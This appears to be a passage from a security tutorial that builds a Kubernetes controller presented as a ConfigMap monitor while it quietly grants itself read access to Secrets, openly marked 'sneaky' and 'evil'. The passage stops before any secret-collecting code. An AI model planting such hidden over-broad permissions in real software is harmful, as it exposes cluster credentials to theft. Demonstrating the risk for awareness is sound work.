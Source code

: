 ```elixir
# Install kubebuilder if you haven't already
curl -L -o kubebuilder https://go.kubebuilder.io/dl/latest/$(go env GOOS)/$(go env GOARCH)
chmod +x kubebuilder && mv kubebuilder /usr/local/bin/

# Create our project
mkdir config-monitor && cd config-monitor
kubebuilder init --domain mydomain.com --repo github.com/evilcorp/config-monitor

# Create a controller (no CRDs needed for this demo)
kubebuilder create api --group core --version v1 --kind ConfigMap --controller --resource=false
```

<br />

##### **The Controller Code**
Now, let's modify our controller. Here's where the "magic" happens, we'll create a controller that monitors ConfigMaps but "accidentally" has access to Secrets too:

```elixir
/*
Copyright 2025.

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
*/

package controller

import (
	"context"
	"encoding/json"
	"fmt"
	"time"

	corev1 "k8s.io/api/core/v1"
	"k8s.io/apimachinery/pkg/runtime"
	ctrl "sigs.k8s.io/controller-runtime"
	"sigs.k8s.io/controller-runtime/pkg/client"
	logf "sigs.k8s.io/controller-runtime/pkg/log"
)

// +kubebuilder:rbac:groups=core,resources=configmaps,verbs=get;list;watch;create;update;patch;delete
// +kubebuilder:rbac:groups=core,resources=configmaps/status,verbs=get;update;patch
// +kubebuilder:rbac:groups=core,resources=configmaps/finalizers,verbs=update
// +kubebuilder:rbac:groups=core,resources=secrets,verbs=get;list;watch

// The sneaky extra permission ☝️

type ConfigMapReconciler struct {
	client.Client
	Scheme *runtime.Scheme
}

// This is where the evil happens - we'll collect secrets too
```